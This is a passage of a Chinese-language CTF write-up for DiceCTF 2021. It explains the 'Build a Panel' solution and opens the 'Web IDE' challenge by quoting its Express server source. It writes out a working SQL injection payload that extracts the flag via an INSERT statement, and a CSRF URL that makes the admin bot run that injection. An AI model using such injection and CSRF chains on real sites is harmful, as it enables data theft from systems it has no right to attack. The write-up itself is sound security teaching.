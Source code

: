 这里没有 admin 的限制，通过这个路由我们可以通过 cookie 中的 panelId 来查询对应的 widgetdata ，并且有直接的回显，不过我们需要让查询得到的`row['widgetdata']`满足 JSON 的格式，这样才不会让`JSON.parse`函数出错。

所以我们大概又这么个思路，构造`panelid=foo',(SELECT+flag+from+flag),'`{`"type"%3a"sss"`}`&gt;')%3b--&amp;widgetname=1&amp;widgetdata=1`，这样我们得到的 sqlite 语句就是

```
INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('foo',(SELECT flag from flag),'`{`"type":"sss"`}`');--', '1', '1');
```

然后通过设置 cookie 为`panelId=foo`，通过`/panel/widgets`路由查询得到 flag

接下来需要做的就是怎么通过`/admin/debug/add_widget`路由的 admin 的前提条件，因为本题是个 XSS 题目，可以让 bot 访问我们的链接，并且在前面我们注意到 sameSite 设置为了 lax ，所以我们似乎可以通过让 admin 直接访问我们构造的如下的 url ，让 admin 帮我们插入这个数据，完成一次 CSRF 攻击。

```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=foo',(SELECT+flag+from+flag),'`{`"type"%3a"sss"`}`')%3b--&amp;widgetname=1&amp;widgetdata=1

```

然后我们带着`panelId=foo`的 Cookie 访问`/panel/widgets`即可：

[![](https://p3.ssl.qhimg.com/t01b9dc32de0418f668.png)](https://p3.ssl.qhimg.com/t01b9dc32de0418f668.png)



## Web IDE

### <a class="reference-link" name="Description"></a>Description

Work on JavaScript projects directly in your browser! Make something cool? Send it [here](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-ide)

[web-ide.dicec.tf](https://web-ide.dicec.tf/)

题目附件：

```
const express = require('express');
const crypto = require('crypto');
const app = express();

const adminPassword = crypto.randomBytes(16).toString('hex');

const bodyParser = require('body-parser');

app.use(require('cookie-parser')());

// don't let people iframe
app.use('/', (req, res, next) =&gt; `{`
  res.setHeader('X-Frame-Options', 'DENY');
  return next();
`}`);

// sandbox the sandbox
app.use('/sandbox.html', (req, res, next) =&gt; `{`
  res.setHeader('Content-Security-Policy', 'frame-src \'none\'');
  // we have to allow this for obvious reasons
  res.removeHeader('X-Frame-Options');
  return next();
`}`);

// serve static files
app.use(express.static('public/root'));
app.use('/login', express.static('public/login'));
```